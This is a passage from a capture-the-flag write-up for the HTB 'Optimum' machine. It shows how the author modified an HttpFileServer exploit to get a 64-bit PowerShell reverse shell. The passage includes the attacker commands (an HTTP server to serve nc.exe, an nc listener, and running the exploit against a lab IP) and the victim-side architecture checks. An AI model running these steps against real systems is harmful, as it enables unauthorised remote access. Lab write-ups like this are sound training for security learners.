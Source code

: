 <br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

To avoid problems with the execution of exploits that may be necessary to escalate privileges, I am going to start a new **64bit** process from the **32bit** process. So first I am going to modify the **HttpFileServer** service exploit so that the binary in charge of running `nc.exe` available on my attacking machine is the native Windows **powershell**. Once I get the cmd shell the process is still **32bit**, it even migrated to a `powershell` shell. But with a little research on the **Internet** I find the **[“How to start a 64-bit process from a 32-bit process”](https://stackoverflow.com/questions/2003573/how-to-start-a-64-bit-process-from-a-32-bit-process){:target="_blank"}** article that allows me to start a **64bit** process.

> **Attacker Machine**:

```bash
# MIGRATE (Do all again) or:
nvim hfs_exploit.py
# change: payload = f'exec|powershell.exe
# payload = f'exec|C:\\Windows\\SysNative\\WindowsPowerShell\\v1.0\\powershell.exe            :)

python3 -m http.server 80
sudo rlwrap -cAr nc -nlvp 443
python2 hfs_exploit.py 10.129.45.159 80
```

> **Victime Machine**:

```cmd
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
# False :/

set proc
# PROCESSOR_ARCHITECTURE=x86
c:\windows\sysnative\cmd.exe
set proc
# PROCESSOR_ARCHITECTURE=AMD64
start /b powershell -c "[Environment]::Is64BitProcess"
# True :)
```

<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
